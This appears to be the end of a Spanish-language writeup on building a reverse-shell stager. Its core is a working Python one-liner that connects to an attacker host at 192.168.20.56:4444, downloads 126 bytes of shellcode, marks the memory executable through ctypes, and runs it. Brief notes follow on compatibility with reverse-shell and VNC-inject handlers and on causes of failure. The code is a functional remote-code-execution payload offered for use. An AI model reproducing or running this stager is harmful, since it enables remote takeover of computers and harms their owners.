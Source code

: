 # ultimo paso, haciendolo one liner

```console
➜  ~ python3 -c 'import socket,struct,ctypes,ctypes.util;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("192.168.20.56",4444));sc=b"\xbf"+struct.pack("<L",s.fileno())+s.recv(126);l=ctypes.CDLL(ctypes.util.find_library("c"));l.mmap.restype=ctypes.c_void_p;l.mprotect.argtypes=[ctypes.c_void_p,ctypes.c_int,ctypes.c_int];m=l.mmap(0,len(sc),3,0x22,-1,0);ctypes.memmove(m,sc,len(sc));l.mprotect(m,len(sc),5);ctypes.CFUNCTYPE(ctypes.c_int)(m)()'
```

le saque los chequeos de version y de errores, y tambien todas las funciones superfluas

# Notas finales

este stager tambien funciona con el handler de la reverse shell normal, y ajustando el tamano del recv puede funcionar con la vncinject (siempre y cuando el windows tenga python instalado)

# en caso de falla

si falla puede ser:
* que el tamanio del stage 1 sea diferente a 126.

